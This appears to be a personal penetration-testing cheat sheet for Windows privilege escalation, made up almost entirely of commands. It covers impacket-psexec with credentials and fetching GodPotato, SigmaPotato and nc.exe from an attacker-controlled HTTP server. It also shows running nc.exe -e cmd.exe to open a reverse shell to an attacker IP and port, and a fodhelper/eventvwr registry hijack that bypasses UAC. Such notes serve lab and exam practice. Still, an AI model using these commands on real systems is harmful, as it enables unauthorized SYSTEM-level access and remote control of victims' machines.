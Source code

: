 ## runas
runas admin
```
runas /u:USER
```

powerhsell or cmd run as admin ( GUI )
```
right click powershell or cmd -> run as admin
```
## privilege system shell
### impacket-exec
```
impacket-psexec "domain/user:pass"@x.x.x.x
```
### godpotato
shuould use all version
```
mkdir .//godpotato; cd ./godpotato; wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe; wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe; wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
```

download
```
$IP = "ip"; $URLHOST = "http://" + $IP + ":8000/"; $PATH = "/godpotato/"; $FILE = "GodPotato-NET2.exe"; $URL = $URLHOST + $PATH + $FILE; iwr $URL -outfile $FILE; $FILE = "GodPotato-NET35.exe"; $URL = $URLHOST + $PATH + $FILE; iwr $URL -outfile $FILE; $FILE = "GodPotato-NET4.exe"; $URL = $URLHOST + $PATH + $FILE; iwr $URL -outfile $FILE; $PATH = ""; $FILE = "nc.exe"; $URL = $URLHOST + $PATH + $FILE; iwr $URL -outfile nc.exe;
```

execute nc.exe to get reverse shell
```
.\godpotato.exe -cmd "C:/path/nc.exe -e cmd.exe $IP $PORT"
```

### sigmapotato
download
```
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```

execute nc.exe to get reverse shell
```
.\SigmaPotato.exe "C:\Users\dave\nc.exe -e cmd.exe 192.168.45.184 4343"
```

### fodhelper
member of BUILTIN\Administrators but is running with a Medium Mandatory Level
```
New-Item -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Name "(default)" -Value "C:\Path\To\YourPayload.exe"
Start-Process eventvwr.exe
```
